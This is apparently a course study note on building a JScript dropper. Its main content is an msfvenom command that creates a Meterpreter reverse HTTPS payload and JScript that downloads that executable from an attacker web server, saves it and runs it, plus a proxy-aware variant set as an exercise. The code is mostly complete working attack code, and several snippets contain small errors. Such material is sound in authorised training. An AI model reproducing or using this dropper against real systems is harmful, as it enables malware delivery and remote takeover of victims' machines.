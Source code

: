 ## JScript dropper
We'll expand our usage of Jscript to create a dropper that downloads a Meterpreter executable from our Kali Linux web server and executes it.

We will first create a simple 64-bit meterpreter reverse https executable and save it to kali web root with the following command:
```sh
sudo msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.49.150 LPORT=443 -f exe -o myshell.exe
```

We will now start with a simple HTTP GET request from Jscript.
We can use MSXML2.XMLHTTP object based on Microsoft's XML Core Services and it's associated XML parser.

We use CreateObject method of the Windows Script to instantiate the MSXML2.XMLHTTP object, and use open and send methods to perform an HTTP GET request.

The _Open_ method will be taking 3 arguments, the request method, the url and a boolean that indicates if the request should synchronous.

The code will be as follows
```JavaScript
var url = "http://192.168.49.150/myshell.exe"
var Object = Wscript.CreateObject('MSXML2.XMLHTTP');

Object.Open('GET', url, false);
Object.Send();
```

We will now proceed with 2 steps:
1. Check if the HTTP GET request was successful.
				- We use the status property of the MSXML2.XMLHTTP object
				- We compare it to the status code of the request
2. We instantiate a stream object and copy the response into it.
				- We use the _stream_ object from the ADODB.strean through the _CreateObject_ method.
				- We invoke _Open_ on the stream object and begin editing the properties of the stream
				- We first set the type property to '1' to indicate we're using binary content.
				- We then call the _Write_ method to write the contents of the response to the stream variable with the ResponseBody method of MSXML2.XMLHTTP
				- Finally, we reset the _Position_ to "0" to instruct the Stream to point to the beggining of it's content.

```JavaScript
if (Object.Status == 200)
{
var stream = Wscript.Object('ADODB.stream');

stream.Open();
stream.Type(1);
stream.Write(Object.ResponseBody);
stream.Position = 0;
```

We finally create a file using the SaveToFile method of the ADODB.stream object.
The method takes 2 arguments:
1. The filename
		- we set it to MyShell.exe
2. Save options
		- We set this to the numeric value of "2" to indicate a file overwrite.

We also close the stream object:
```JavaScript
stream.SaveToFile("myshell.exe", 2);
stream.Close();
```

To put it all together we use WSH shell to run our executable:
```JavaScript
var r = new ActiveXObject("Wscript.Shell").Run("myshell.exe");
```


Our Final code looks like so:
```JavaScript
var url = "http://192.168.49.150/myshell.exe"
var Object = WScript.CreateObject('MSXML2.XMLHTTP');

Object.Open('GET', url, false);
Object.Send();

if (Object.Status == 200)
{s
    var Stream = WScript.CreateObject('ADODB.Stream');

    Stream.Open();
    Stream.Type = 1;
    Stream.Write(Object.ResponseBody);
    Stream.Position = 0;

    Stream.SaveToFile("myshell.exe", 2);
    Stream.Close();
}

var r = new ActiveXObject("WScript.Shell").Run("myshell.exe");
```

We get a shell back:

![jscript-drop-shell](../../../Screenshots/jscript-drop-shell.png)

## Exercise
We need to make the communication proxy-aware, we can do this with the [_setProxy_](https://docs.microsoft.com/en-us/previous-versions/windows/desktop/ms760236%28v%3dvs.85%29) method of the oSrvXMLHTTPRequest object.

We start by instantiating another object of MSXML 6.0 as 3.0 does not support proxy, we then use the setProxy method which takes 3 arguments:
1. [proxySetting](https://docs.microsoft.com/en-us/previous-versions/windows/desktop/ms760236%28v%3dvs.85%29#remarks)
2. The proxy server and the port we'll be using
3. Any host that can go through the proxy

Our edited code looks like so:
```JavaScript
var url = "http://192.168.49.150/myshell.exe"
var Object = WScript.CreateObject('MSXML2.XMLHTTP');
var Proxy = WScript.CreateObject('MSXML2.ServerXMLHTTP.6.0');

Proxy.setProxy(2, "http://192.168.150.12:3128/");
Object.Open('GET', url, false);
Object.Send();

............
- ```


